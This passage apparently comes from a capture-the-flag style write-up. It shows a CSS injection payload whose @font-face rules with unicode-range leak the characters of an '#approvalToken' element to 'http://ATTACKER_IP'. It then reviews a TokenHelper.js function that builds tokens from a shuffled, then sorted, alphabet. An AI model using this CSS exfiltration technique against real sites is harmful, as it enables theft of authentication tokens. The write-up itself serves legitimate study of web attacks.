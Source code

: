     font-family: "poc";
    src: url(http://ATTACKER_IP/?q=4);
    unicode-range: U+0034;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=5);
    unicode-range: U+0035;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=6);
    unicode-range: U+0036;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=7);
    unicode-range: U+0037;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=8);
    unicode-range: U+0038;
}
@font-face {
    font-family: "poc";
    src: url(http://ATTACKER_IP/?q=9);
    unicode-range: U+0039;
}
.d-none{
    display: block !important;
}
#approvalToken {
    font-family: poc;
}
<pre>
</details>

After sending that css payload the connection sending to our server.

> !important it need to set class `.d-none` display block because it will render font-style

After getting the connection let see file `TokenHelper.js` in helpers

```js
module.exports = {
  generateToken() {
    const dict =
      "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    const shuffle = (v) => [...v].sort((_) => Math.random() - 0.5).join("");

    // Shuffle characters and sort them in ASCII order
    return shuffle(dict).substring(0, 32).split("").sort().join("");
  },
};
```
